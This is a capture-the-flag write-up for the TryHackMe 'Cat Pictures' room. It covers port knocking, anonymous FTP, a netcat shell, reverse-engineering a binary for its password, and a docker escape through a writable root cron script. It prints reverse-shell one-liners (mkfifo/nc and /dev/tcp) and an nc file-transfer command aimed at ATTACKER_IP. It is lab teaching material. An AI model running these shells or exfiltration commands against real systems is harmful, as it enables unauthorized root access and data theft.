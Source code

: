 ```yaml
---
title: "Cat Pictures"
tags:
  - Easy
  - Linux
  - nmap
  - Port Knocking
  - ftp
  - Reverse Engineering
  - docker
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  |   10.10.21.0  |  | [Cat Pictures](https://tryhackme.com/room/catpictures) |  |

### [ Flag 1 ]

As usual, let's run an `nmap` scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are 3 open ports. There are also 2 ports which seem to be hidden behind a firewall:

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a **SSH** server, a **HTTP** Web server and an unknown service running on port 4420. The **FTP** server is currently inaccessible by us. There is also a **docker** service running on port 2375.

Let's first take a look at the HTTP Web server:

![screenshot1](../assets/images/cat_pictures/screenshot1.png)

We have a forum page that is built on [phpBB](https://www.phpbb.com/). Before we do our happy-path enumeration, let's run a `gobuster` directory scan to see if we can find any hidden directories:

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

Let's now check out the post on the webpage:

![screenshot2](../assets/images/cat_pictures/screenshot2.png)

We have a post titled **'Post cat pictures here!'**. We also have an interesting message: 

> Knock knock! Magic numbers: 1111, 2222, 3333, 4444

Hmmmm.... 'Knock knock' and numbers that look like port numbers.... Could this be a port knocking sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

![screenshot3](../assets/images/cat_pictures/screenshot3.png)

Nice! Access to the **FTP** server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside:

![screenshot4](../assets/images/cat_pictures/screenshot4.png)

**Contents of note.txt:**

![screenshot5](../assets/images/cat_pictures/screenshot5.png)

We find out that the unknown service running on port 4420 is actually an internal shell service! We also obtain a password:

> sardinethecat

Let's now log into the shell service with our newfound password:

```
nc 10.10.21.0 4420
```

![screenshot6](../assets/images/cat_pictures/screenshot6.png)

And we're in! 

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the /bin directory, we can see that there are only a handful of programs that are installed:

![screenshot7](../assets/images/cat_pictures/screenshot7.png)

With that in mind, let's take a look around.

![screenshot8](../assets/images/cat_pictures/screenshot8.png)

I found a binary called `runme` in the home directory of the **catlover** user. Let's try to run it:

![screenshot9](../assets/images/cat_pictures/screenshot9.png)

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

![screenshot10](../assets/images/cat_pictures/screenshot10.png)

And we're in yet again! Now we can run the `runme` binary:

![screenshot11](../assets/images/cat_pictures/screenshot11.png)

We need another password. Unfortunately, 'sardinethecat' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

With the binary now on my local machine, I passed it to [Binary Ninja](https://cloud.binary.ninja/) to reverse engineer the code. Once the reverse engineering is completed, I focused on the `main()` function:

![screenshot12](../assets/images/cat_pictures/screenshot12.png)

As we can see, the password is actually exposed in the code:

> rebecca

Let's go back into the target machine and run `runme` again:

![screenshot13](../assets/images/cat_pictures/screenshot13.png)

We now have a private ssh key in catlover's home directory:

![screenshot14](../assets/images/cat_pictures/screenshot14.png)

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into SSH! *(make sure permissions of the key is either 400 or 600)*

![screenshot15](../assets/images/cat_pictures/screenshot15.png)

Great, we are now logged in as the root user! We can grab the first flag in the /root directory:

![screenshot16](../assets/images/cat_pictures/screenshot16.png)

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that `docker` is running on port 2375? Perhaps we are currently in a docker container... We can verify this by looking for a **.dockerenv** file in the root directory:

![screenshot17](../assets/images/cat_pictures/screenshot17.png)

The file is present, which confirms that we are in a docker container! 

Now we need to find a way to break out. From past experiences, this is normally done through a script that is run as a cronjob by the root user outside of the container. Let's look around the machine to see if we can find such a script.

One place I looked was the **.bash_history** file:

![screenshot18](../assets/images/cat_pictures/screenshot18.png)

There's an interesting script called **clean.sh** located in /opt/clean. Let's check it out:

![screenshot19](../assets/images/cat_pictures/screenshot19.png)

Seems like the script is a cleaner script that removes all files in the /tmp directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user:

![screenshot20](../assets/images/cat_pictures/screenshot20.png)

The final flag can then be found in the /root directory:

![screenshot21](../assets/images/cat_pictures/screenshot21.png)